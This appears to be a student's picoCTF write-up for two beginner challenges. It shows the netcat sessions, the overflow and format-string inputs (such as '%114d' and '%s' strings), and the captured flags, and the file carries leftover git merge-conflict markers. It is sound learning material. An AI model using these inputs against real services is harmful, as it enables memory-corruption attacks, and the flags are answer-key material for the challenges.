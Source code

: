 # 1. buffer overflow 0
This challenge involves exploiting a buffer overflow vulnerability in a given program. We are also given access to the source code, which helps in understanding how the buffer is handled and where the vulnerability lies.

## Solution:
1. First I received the two files: `vuln` and `vuln.c`. I opened vuln.c with vim to understand how the program works. Reading the source code - I noticed that it asks for a flag.txt file. Nothing was understandable from that.
    <img width="1920" height="983" alt="image (2)" src="https://github.com/user-attachments/assets/e87a9a3b-ae6c-44ac-b753-64b3338990f5" />

2. So I tried running the `vuln` program directly. So I changed its permissions to make it executable.
3. It prompted for input, but I was not sure what to input yet.
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ chmod +x vuln

    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ ./vuln
    Please create 'flag.txt' in this directory with your own debugging flag.
    ```
4. Next, I connected to the challenge server via netcat using `nc saturn.picoctf.net 54577`. The server takes input so I gave - "Input: 93874" and then printed "The program will exit now."
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ nc saturn.picoctf.net 54577
    Input: 93874
    ```
5. I was not able to figure out. I tried reading the code again.
6. I reviewed the source code again, focusing on functions like `strcpy` and `gets` - which are known to be unsafe as they dont perform bounds checking(I got to know in PPS class). I saw that `strcpy(buf2, input)` was used, and `buf2` had a fixed size of 16 bytes.
7. So I prepared an input string longer than 16 characters to overflow `buf2`.
8. I made the previous command run again and wrote any random string greater than 16. This caused the program to respond with the flag:
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ nc saturn.picoctf.net 54577
    Input: 039485704398732094873409873294870987534987
    picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
    ```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:
- Understanding how buffer overflows work and how unsafe functions like `strcpy` and `gets` can be exploited.

## Notes:
- I was initially trying to create a random flag file, but since the title was overflow i resisted it and started thinking the other way.
- I also thought about using `gdb` to analyze the binary and after doing a little came back.

## Resources:
- Only Google to get some search about strcpy.
<<<<<<< HEAD
- Later when I opened hint the `man gets` and under that BUGS section was stated.








# 2. format string 0
This challenge involves exploiting format string vulnerabilities in a binary program. The program prompts the user to recommend burgers from a list, but the input is processed using a printf like function.

## Solution:
1. I started by downloading the source code and binary to analyze the programs behavior. I tried to understand the code but not in very detail as last question instead of going and running through the binary second file I connected to the challenge server using `nc mimas.picoctf.net 55252`.
2. Then the game started where something options was given out of 3, I first tried and guessed wrong.
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/formatstring0]
    └─$ nc mimas.picoctf.net 55252
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Breakf@st_Burger
    Breakf@st_BurgerPatrick is still hungry!
    Try to serve him something of larger size!
    ```
3. I played it again, But this time something odd was there in options. Since string was to be there as in challenge title, so it remembered me of `%s` in C programming.Thus I selected the option - `Gr%114d_Cheese`
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/formatstring0]
    └─$ nc mimas.picoctf.net 55252
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Gr%114d_Cheese
    Gr                                                                                                           4202954_Cheese
    Good job! Patrick is happy! Now can you serve the second customer?
    Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation:
    ```
4. Now for next option - option 1 and 3 both have `%s`, so I tried out 3rd as it has more number of %s(which was illogical...) but I got my flag.
    ```bash
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation: Cla%sic_Che%s%steak
    ClaCla%sic_Che%s%steakic_Che(null)
    picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
    ```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```

## Concepts learnt:
- Understanding how format string vulnerabilities work in C programming.
- Learning that format specifiers like `%s`, `%d`, and `%114d` can be used to read or manipulate memory.

## Notes:
After many google searches and refernces I tried to found out the reason and found that - 
```C
if (count > 2 * BUFSIZE) {
    serve_bob();
}
```
This code is checking greater than 64 bytes as BUFSIZE is 32 bytes. So our `Gr%114d_Cheese` is greater than 64 as the `%114d` is a format specifier in "Gr%114d_Cheese". When printf encounters %114d, it expects to print a number with a width of 114 characters.
And for second part I dont get any best answer but I think - `%t` is valid but here in `%s` there were lot more character after that like - `%steak` is not valid as %s still tries to process it.

## Resources:
- [Format String Exploits in C](https://owasp.org/www-community/attacks/Format_string_attack)
=======

- Later when I opened hint the `man gets` and under that BUGS section was stated.
>>>>>>> f574b98f8879d5dcc3815e22eb90ba50f294a18b
